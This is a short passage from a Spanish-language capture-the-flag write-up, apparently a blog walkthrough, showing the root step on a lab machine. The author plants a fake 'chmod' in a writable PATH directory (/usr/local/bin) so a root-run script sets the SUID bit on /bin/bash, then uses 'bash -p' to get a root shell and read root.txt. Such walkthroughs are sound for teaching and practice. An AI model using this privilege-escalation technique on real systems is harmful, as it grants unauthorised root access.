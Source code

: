 ~~~bash
~~~

Bien, con esto ya tenemos claro cómo proceder, vamos a realizar un *Path Hijacking*, ya que tenemos un directorio vulnerable que ya está en el PATH.

De esta forma, la idea es secuestrar un binario del sistema que utilice ese script, como puede ser *chmod, chown o find*.

Por tanto, vamos a crear un fichero llamado "chmod" donde vamos a dar permisos SUID al binario de *bash*, de esta forma, al ejecutarlo automáticamente el script nos dará root.

~~~bash
-bash-5.1$ cd /usr/local/bin
-bash-5.1$ echo "chmod +s /bin/bash" > chmod
-bash-5.1$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1234376 Mar 27  2022 /bin/bash
-bash-5.1$ bash -p
bash-5.1# whoami
root
bash-5.1# ls /root
root.txt
~~~

Pues así conseguimos la flag de root. Espero que os haya gustado y nos vemos en la próxima





